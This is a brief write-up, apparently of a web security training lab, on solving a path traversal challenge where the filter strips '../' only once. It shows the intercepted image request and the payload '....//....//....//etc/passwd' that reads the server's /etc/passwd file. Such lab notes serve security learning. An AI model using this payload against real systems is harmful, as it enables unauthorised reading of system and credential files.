

# File path traversal, traversal sequences stripped non-recursively

## This lab contains a [file path traversal] vulnerability in the display of product images.

## The application strips path traversal sequences from the user-supplied filename before using it.

## To solve the lab, retrieve the contents of the `/etc/passwd` file.

---

### step 1

intercept image in burpsuite
GET /image?filename=21.jpg HTTP/1.1

step2
change url
ET /image?filename=....//....//....//etc/passwd
and send forward turn of intercept

